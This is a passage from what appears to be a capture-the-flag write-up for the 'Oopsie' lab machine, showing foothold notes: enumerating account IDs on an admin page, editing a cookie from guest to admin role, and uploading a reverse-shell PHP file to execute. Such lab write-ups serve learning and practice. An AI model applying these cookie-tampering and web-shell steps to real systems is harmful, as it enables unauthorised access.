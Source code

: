## Foothold

- Guest login -> admin id (`http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1`)

```
Access ID	Name	Email
34322	    admin	admin@megacorp.com
2233	    guest	guest@megacorp.com
```

- manage the admin cookie for visiting this server

```
collect cookie structure:
			{
				"name": "Cookie",
				"value": "user=2233; role=guest" -> "user=34322; role=admin"
			},
```

- find the upload exp -> upload rshell.php -> visit it to execute rshell

![image-20231122012747887](./Oopsie.assets/image-20231122012747887.png)

- POC: upload file exp
